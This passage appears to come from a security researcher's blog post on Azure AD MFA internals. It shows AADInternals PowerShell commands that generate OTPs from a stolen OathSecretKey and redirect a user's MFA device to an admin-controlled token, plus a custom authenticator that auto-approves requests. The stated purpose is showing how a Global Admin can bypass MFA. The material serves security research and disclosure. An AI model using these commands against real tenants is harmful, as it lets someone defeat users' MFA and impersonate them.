 ```
DeviceName         : NO_DEVICE
DeviceTag          : SoftwareTokenActivated
DeviceToken        : NO_DEVICE_TOKEN
Id                 : aba89d77-0a69-43fa-9e5d-6f41c7b9bb16
NotificationType   : Invalid
OathTokenTimeDrift : 0
OathSecretKey      : 
PhoneAppVersion    : NO_PHONE_APP_VERSION
TimeInterval       :
```
From the output we can see that there are two "apps" registered.

The first one is the interactive Authenticator app on user's Android device (capable also for one-time-password (OTP)), and the second one is a pure OTP generator. 
OTP is generated based on a Base32 encoded secret (OathSecretKey) created when the authenticator was registered. 

If we know the **OathSecretKey**, we can generate valid OTP tokens. AFAIK, the only way to get this is to be present when the MFA device is registered when it is shown:
![Azure AD account](/images/posts/admin2.png)

With the secret key, we can now create OTP:
{{< highlight powershell >}}
# Generate OTP
New-AADIntOTP -SecretKey "jmbz yz2w lpxf nzjh"
{{< /highlight>}}
Output:
```
OTP     Valid
---     -----
990 653 15s 
```

Global Admin can also change the MFA device of the user. For instance, if the DeviceToken of the admin's Authenticator app is known, it can easily changed in place of user's app:
{{< highlight powershell >}}
# Change user's MFA device
Set-AADIntUserMFAApps -UserPrincipalName "user@company.com" -Id "454b8d53-d97e-4ead-a69c-724166394334" -DeviceToken "APA91bEvVMWXcLy7EUEge4jSkD7HAAdWPn-0WjOHrkg0zZvVpg0LRBLa9QN7mEXyJSslqbkWx1Q5Qz8aZyJ69gs0rNGn-b5tc71P-XwRQ734AsdrDCvgJ5F9x17K6kfdisbFrT4z6xQE9EUxgMg5ZA8A-TVXepyqGQ"
{{< /highlight>}}

Now the user's MFA challenges are directed to admin's device. However, as the user's details is not registered to admin's Authenticator, an error message is shown.

To circumvent this obstacle, I've created an open-source <a href="https://github.com/Gerenios/Authenticator" target="_blank">AADInternals Authenticator</a> which replaces Microsoft Authenticator. 
The Device Token of the authenticator can be easily copied and it will automatically accepts all authentication requests. Thus, Global Admin can bypass MFA.
